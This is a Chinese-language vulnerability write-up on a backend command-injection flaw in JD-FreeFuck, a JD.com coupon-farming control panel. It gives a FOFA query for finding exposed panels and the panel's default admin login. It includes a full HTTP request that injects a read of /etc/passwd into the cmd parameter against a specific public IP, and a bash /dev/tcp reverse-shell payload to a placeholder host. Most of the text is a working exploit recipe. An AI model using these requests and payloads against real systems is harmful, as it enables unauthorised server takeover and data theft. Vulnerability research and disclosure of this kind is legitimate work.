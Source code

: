 # JD-FreeFuck 后台命令执行漏洞

## 漏洞描述
JD-FreeFuck 存在后台命令执行漏洞，由于传参执行命令时没有对内容过滤，导致可以执行任意命令，控制服务器

项目地址： https://github.com/meselson/JD-FreeFuck

## 漏洞影响

`JD-FreeFuck`

## FOFA

`title="京东薅羊毛控制面板"`

## 漏洞复现
访问后登录页面如下

![](resource/JD-FreeFuck后台命令执行漏洞/media/1.png)

默认账号密码为

`useradmin/supermanito`

![](resource/JD-FreeFuck后台命令执行漏洞/media/2.png)

发送如下请求包执行命令

```bash
POST /runCmd HTTP/1.1
Host: 101.200.189.251:5678
Content-Length: 50
Pragma: no-cache
Cache-Control: no-cache
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: connect.0.6356777726800276=s%3Av1W6DxlSqnPpVgvMCItxElFeKI1Psh4i.eE4ORs0Yz30N0TOg1pUVpOqrpIHyrqIimuXJVO8lE7U
Connection: close

cmd=bash+jd.sh+%3Bcat /etc/passwd%3B+now&delay=500
```

其中 cmd 参数存在命令注入

![](resource/JD-FreeFuck后台命令执行漏洞/media/3.png)

反弹shell

`cmd=bash+jd.sh+%3Bbash+-c+'exec+bash+-i+%26%3E%2Fdev%2Ftcp%2Fxxx.xxx.xxx.xxx%2F9999+%3C%261'%3B+now&delay=500`

![](resource/JD-FreeFuck后台命令执行漏洞/media/4.png)


## 参考文章
`@桃花心 师傅`

https://www.secquan.org/Discuss/1071932#reply3